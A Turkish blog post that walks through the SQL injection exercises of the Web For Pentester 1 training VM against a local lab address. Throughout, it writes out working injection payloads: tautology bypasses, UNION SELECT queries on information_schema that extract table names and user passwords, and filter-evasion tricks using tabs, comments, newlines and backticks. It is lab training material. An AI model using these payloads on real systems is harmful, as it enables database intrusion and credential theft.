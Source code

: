 ```yaml
---
layout: post
title: WEB For Pentester 1 - SQL Injections Bölümü Çözümleri
---
```




&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Web For Pentester</strong> yaygın Web zafiyetlerini bize sunan ve bu zafiyetlerden yararlanmaya çalışarak çözümlere ulaştığımız
bir test sistemidir. Bu adresten bilgisayarınıza indirebilirsiniz.<a href = "https://www.pentesterlab.com/exercises/web_for_pentester">https://www.pentesterlab.com/exercises/web_for_pentester</a>
ISO kalıbı bilgisayarınıza indikten sonra Vmware,Virtual Machine gibi sanal makina sistemlerinden birine kurmanız gerekir. Kurulumdan sonra sanal makinenizdeki sistem de

>><strong>>></strong>ifconfig

yazarak gördüğünüz IP adresini Ana makinenizdeki tarayıcınıza yazarak <strong>WFP</strong> sorularına ulaşabilirsiniz.
Bu yazıda <strong>SQL Injections</strong> Bölümünün çözümlerini anlatmaya çalışacağız.Syntax yapısını sağlamak için gereken  URL encode karakterlerine şurayı ziyaret ederek ulaşabilirsiniz.
<a href = "https://www.w3schools.com/tags/ref_urlencode.asp">https://www.w3schools.com/tags/urlencode</a>	


<strong>Example 1</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Soruda tırnak (') koyup deneme yaptığımızda ekranın bir hatadan dolayı değiştiğini görüyoruz. Buradan araya kod sıkıştırabileceğimizi anlıyoruz.  Örnek olarak arka tarafta çalışan sorgu:

	1. select id,name,age from users where name='root'

Buraya şu ifadeyi eklediğimizde

	1. select id,name,age from users where name='root' or 1 or''
	2. select id,name,age from users where 1 

İkinci  duruma geldiğini düşünebiliriz. Bununla bütün değerleri çağırmış oluyoruz ve listeliyoruz.
'or 1 or' ifadesini aşağıdaki gibi URL'ye eklediğimizde tüm tabloyu listeliyoruz. 

	1. http://192.168.96.129/sqli/example1.php?name=root'or 1 or'

Burada çıkan kullanıcıları ve bilgileri görüyoruz. Örneğin user1 ile devam edelim. Buraya yazdığımız kelime sonucu etkilemez. Önümüzdeki tabloda kaç tane sütun olduğunu aşağıdaki komutla deneyerek buluyoruz.

	1. http://192.168.96.129/sqli/example1.php?name=user1' order by 1 %23
	2. http://192.168.96.129/sqli/example1.php?name=user1' order by 2 %23
	3. http://192.168.96.129/sqli/example1.php?name=user1' order by 3 %23
	4. http://192.168.96.129/sqli/example1.php?name=user1' order by 4 %23
	5. http://192.168.96.129/sqli/example1.php?name=user1' order by 5 %23
	6. http://192.168.96.129/sqli/example1.php?name=user1' order by 6 %23

Ve en son 6 da hata oluyor yani önümüze hiç bir şey çıkmıyor. Buradan 5 tane sütunumuz olduğunu anlıyoruz.<strong>'%23'</strong> ifadesi de (#) anlamına geliyor yani sonrasında gelen ifadeleri yok sayıyor. Bu sayede syntax hatalarından kurtuluyoruz.
Bu aşamadan sonra bilgi toplamaya başlıyoruz.İlk sütuna ve ikinci sütuna tablo ve versiyon bilgilerini bastırmak için bunu uyguluyoruz.

	1. http://192.168.96.129/sqli/example1.php?name=user1' union select table_name,version(),3,4,5 
	from information_schema.tables %23


Bütün Sütun isimleri için:

	1. http://192.168.96.129/sqli/example1.php?name=user1' union select column_name,2,3,4,5 
	from information_schema.columns %23

Tablo isimlerini normal yazarak hata alırsak onların hexadecimal karşılıklarını deneyerek sonuca ulaşabiliriz.

	1. http://192.168.96.129/sqli/example1.php?name=root' union select column_name,2,3,4,5 
	from information_schema.columns where table_name = 0x7573657273 %23

Sırayla aşağıdaki işlemleri uygulayarak tablodaki kullanıcı şifrelerini bulmaya çalışalım.

	1. http://192.168.96.129/sqli/example1.php?name=root' union select 
	database(),2,3,4,5 %23 --> Kullanılan veri tabanının ismini çektiğimiz komut.

	2. http://192.168.96.129/sqli/example1.php?name=root' union select table_name,2,3,4,5 
	from information_schema.tables where 
	table_schema = database() %23 --> Kullanılan tablonun adını çektiğimiz komut.

	3. http://192.168.96.129/sqli/example1.php?name=root' UNION SELECT 1,column_name,3,4,5 
	FROM information_schema.columns WHERE table_name="users" %23 --> tablodaki sütunların 
	isimlerini çektiğimiz komut.

	4. http://192.168.96.129/sqli/example1.php?name=root' union select name,passwd,3,4,5 
	from exercises.users %23 --> kullanıcı isimlerini ve şifrelerini çektiğimiz komut.


Çeşitli komut varyasyonları ile farklı bilgiler edinebiliriz. 



<strong>Example 2</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1. Soruda denediğimiz ifadenin aynısını deniyoruz ve <strong>'ERROR NO SPACE'</strong> yazısını görüyoruz. Buradan aralara
koyduğumuz boşluk karakterinin sorun oluşturduğunu anlıyoruz.  Syntax yapısını sağlamak için boşluk yerine tab koyabiliriz. Tabiki Tab tuşuna basarak yapabildiğimiz bir olay değil. TAB karakteri <strong>'%09'</strong> ile ifade edilir.
	
	1. http://192.168.96.129/sqli/example2.php?name=root'or%091%09or'	


<strong>Example 3</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'or 1 or' denediğimizde  <strong> 'ERROR NO SPACE' </strong>. Sonrasında bir önceki sorudaki gibi  'or%091%09or' deniyoruz fakat yine aynı sonuç : <strong>'ERROR NO SPACE'</strong> . Boşluğa ve Tab'a izin vermiyor. Syntax yapısını sağlaması için boşluk benzeri birşey koyacağız ama ne boşluk olacak ne de tab. Biraz araştırma sonucu yorum satırı haline getirerek oralardaki karakter koyma ihtiyacından kurtuluyoruz.

	1. http://192.168.96.129/sqli/example3.php?name=root'or/**/1/**/or


<strong>Example 4</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;URL'nin devamına 'or 1 or' denediğimizde bir sonuç alamıyoruz. Birkaç denemeden sonra tırnak karakteri kullanmamamız gerektiğini anlıyoruz ve yalnızca <strong>or 1</strong> yazarak sonuçlari listeliyoruz.

	1. http://192.168.96.129/sqli/example4.php?id=2 or 1


<strong>Example 5</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4. soruda olduğu gibi aynı işlemi uygulayınca sonucu listeliyoruz.

	1. http://192.168.96.129/sqli/example5.php?id=2 or 1


<strong>Example 6</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tırnak koyup bir kontrol ediyoruz ve <strong>'ERROR INTEGER REQUIRED'</strong> yazısını görüyoruz. İfademizi bir Integer ile bitirmek için  or 1  yazıyoruz .

	1. http://192.168.96.129/sqli/example6.php?id=2 or 1


<strong>Example 7</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tırnak karakteri koyduğumuzda <strong>'ERROR INTEGER REQUIRED'</strong> yazısını görüyoruz. Bir önceki soruda olduğu gibi or 1 yazıp deniyoruz ama aynı hata devam ediyor. Burada integer isteyen yerin bizim ifademizden önce gelen yer olduğunu deneyerek buluyoruz.<strong>'%0A'</strong> karakteri alt satıra geçme anlamına geliyor. Bunu kullanarak aşağıdaki ifade sonuçları listeliyor.

	1. http://192.168.96.129/sqli/example7.php?id=2%0A or 1

<strong>Example 8</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada <strong>order</strong> kelimesini görünce order yapısıyla ilgili sorgular göndermeye çalışıyoruz. Düz tırnak gönderdiğimizde bir sonuç alamıyoruz ve denemeler sonucu yatay tırnak(`) kullanıyoruz.

	1. `asc %23
	2. `desc %23
	3. ` %23

ifadeleri işimizi görüyor.

	1. http://192.168.96.129/sqli/example8.php?order=name`asc %23

<strong>Example 9</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Düz tırnak ve yatay tırnak karakterleri hata veriyor ve bunları kullanmadan deneyerek sonuçları listeliyoruz.
 
	1. asc %23
	2. desc %23
	3. %23

İfadelerinden herhangi biriyle sorgumuzu çalıştırıyoruz.

	1. http://192.168.96.129/sqli/example9.php?order=name desc %23

<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Böylelikle <strong>WEB For Pentester 1 SQL Injections</strong> bölümünün çözümünü tamamlamış olduk. Tüm sorular için aynı detaya inme gereği duymadık ilk sorudaki sorgulardan yola çıkarak aynı sonuçları elde edebilirsiniz.








